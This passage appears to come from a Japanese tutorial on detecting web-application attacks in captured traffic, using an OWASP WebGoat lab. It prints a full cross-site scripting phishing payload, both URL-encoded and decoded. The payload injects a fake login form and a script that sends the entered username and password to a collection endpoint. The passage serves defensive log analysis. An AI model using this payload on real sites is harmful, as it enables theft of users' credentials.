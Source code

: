 X-Real-IP: 192.168.33.1.
Host: webgoat.cyexc-target.
X-Requested-With: XMLHttpRequest.
``Username=%3C%2Fform%3E%3Cscript%3Efunction+hack()%7B+XSSImage%3Dnew+Image%3B+XSSImage.src%3D%22http%3A%2F%2Fwebgoat.cyexc-target%2FWebGoat%2Fcatcher%3FPROPERTY%3Dyes%26user%3D%22%2B+document.phish.user.value+%2B+%22%26password%3D%22+%2B+document.phish.pass.value+%2B+%22%22%3B+alert(%22Had+this+been+a+real+attack...+Your+credentials+were+just+stolen.+User+Name+%3D+%22+%2B+document.phish.user.value+%2B+%22Password+%3D+%22+%2B+document.phish.pass.value)%3B%7D+%3C%2Fscript%3E%3Cform+name%3D%22phish%22%3E%3Cbr%3E%3Cbr%3E%3CHR%3E%3CH3%3EThis+feature+requires+account+login%3A%3C%2FH3+%3E%3Cbr%3E%3Cbr%3EEnter+Username%3A%3Cbr%3E%3Cinput+type%3D%22text%22+name%3D%22user%22%3E%3Cbr%3EEnter+Password%3A%3Cbr%3E%3Cinput+type%3D%22password%22+name+%3D+%22pass%22%3E%3Cbr%``   <br>
 <br>
上記メッセージをnkfを使用してURLデコードすると、   <br>
$ echo 'Username=%3C%2Fform%3E%3Cscript%3Efunction+hack()%7B+XSSImage%3Dnew+Image%3B+XSSImage.src%3D%22http%3A%2F%2Fwebgoat.cyexc-target%2FWebGoat%2Fcatcher%3FPROPERTY%3Dyes%26user%3D%22%2B+document.phish.user.value+%2B+%22%26password%3D%22+%2B+document.phish.pass.value+%2B+%22%22%3B+alert(%22Had+this+been+a+real+attack...+Your+credentials+were+just+stolen.+User+Name+%3D+%22+%2B+document.phish.user.value+%2B+%22Password+%3D+%22+%2B+document.phish.pass.value)%3B%7D+%3C%2Fscript%3E%3Cform+name%3D%22phish%22%3E%3Cbr%3E%3Cbr%3E%3CHR%3E%3CH3%3EThis+feature+requires+account+login%3A%3C%2FH3+%3E%3Cbr%3E%3Cbr%3EEnter+Username%3A%3Cbr%3E%3Cinput+type%3D%22text%22+name%3D%22user%22%3E%3Cbr%3EEnter+Password%3A%3Cbr%3E%3Cinput+type%3D%22password%22+name+%3D+%22pass%22%3E%3Cbr%' | nkf -w --url-input   <br>
 <br>
/// 悪意のあるスクリプトがWebGoatに送られていることがわかる。   <br>
``Username=</form><script>function+hack(){+XSSImage=new+Image;+XSSImage.src="http://webgoat.cyexc-target/WebGoat/catcher?PROPERTY=yes&user="++document.phish.user.value+++"&password="+++document.phish.pass.value+++"";+alert("Had+this+been+a+real+attack...+Your+credentials+were+just+stolen.+User+Name+=+"+++document.phish.user.value+++"Password+=+"+++document.phish.pass.value);}+</script><form+name="phish"><br><br><HR><H3>This+feature+requires+account+login:</H3+><br><br>Enter+Username:<br><input+type="text"+name="user"><br>Enter+Password:<br><input+type="password"+name+=+"pass"><br%``<br>


## References
* [OWASP Top 10 2013](https://www.owasp.org/images/7/79/OWASP_Top_10_2013_JPN.pdf)
* [OWASP WebGoat Project](https://www.owasp.org/index.php/Category:OWASP_WebGoat_Project)
* [OWASP ZAP Attack Proxy Project](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)
* [ngrep examples](https://github.com/jpr5/ngrep/blob/master/EXAMPLES.md)
* [arachini scanner](http://www.arachni-scanner.com/)
* [2015年JPCERT ログを活用した高度サイバー攻撃の早期発見と分析](https://www.jpcert.or.jp/research/APT-loganalysis_Presen_20151117.pdf)
* [Detecting Attacks on Web Applications from Log
Files](https://www.sans.org/reading-room/whitepapers/logging/detecting-attacks-web-applications-log-files-2074)
